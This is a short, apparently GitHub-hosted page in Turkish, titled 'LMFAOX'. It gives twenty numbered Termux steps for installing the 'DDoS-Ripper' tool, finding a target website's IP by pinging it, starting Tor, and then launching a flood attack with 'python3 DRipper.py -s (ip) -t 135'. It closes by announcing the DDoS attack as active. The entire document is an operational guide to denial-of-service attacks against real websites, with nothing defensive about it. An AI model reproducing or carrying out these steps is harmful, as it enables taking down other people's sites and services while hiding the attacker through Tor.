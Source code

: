 # LMFAOX
1- Termux-change-repo
2- default olanını seçin
3- pkg update && pkg upgrade
4- çıkan herşeye N diyoruz yani default
5- pkg install python
6- pkg install python3 -y
7- pkg install git -y
8- git clone GitHub - palahsu/DDoS-Ripper: DDos Ripper a Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic
9- cd DDoS-Ripper
10- python3 DRipper.py -h
11- yeni bir komut alanı açıyoruz
12- yeni açtığımız alana cd yazıyoruz
13- yeni açtığımız alana ping website ismi/website domaini
14- çıkan ip adresini kopyalıyoruz
15- yeni bir tane daha komut alanı açıyoruz
16- bu 3. Açtığımız alana pkg install tor yazıyoruz
17- 3. Açtığımız alana son olarak tor yazıyoruz
18- şimdi ilk açtığımız alana geri dönüyoruz
19- python3 DRipper.py -s (ip) -t 135
20- DDoS attack aktif hale getirildi :)
